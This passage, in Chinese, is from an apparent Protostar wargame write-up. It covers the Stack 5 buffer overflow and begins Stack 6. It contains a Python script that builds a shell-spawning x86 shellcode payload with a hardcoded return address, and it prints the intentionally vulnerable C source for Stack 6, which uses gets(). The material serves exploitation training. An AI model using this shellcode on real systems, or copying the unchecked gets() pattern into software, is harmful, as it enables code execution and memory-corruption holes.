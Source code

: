 `0xbffff860`通过分析core dump文件得来，是栈中存储函数返回地址处后面的地址，其实也就是函数返回后的`esp`寄存器中的值。效果：

![Stack 5](stack5_0.png)

需要注意的是在执行程序时，使用`./stack5`与`/opt/protostar/bin/stack5`也会导致栈地址不同。

*update：*

参考了[一个博客文章](http://www.kroosec.com/2012/12/protostar-stack5.html)发现，其实并不是非得更换shellcode，仍然是利用23个字节的较短shellcode：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

#print len(shellcode)
print shellcode + (76 - len(shellcode)) * 'a' + '\x20\xf8\xff\xbf'
```

采用了一个bash trick来解决`stdin`的问题：

![Stack 5](stack5_1.png)



## Stack 6

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
```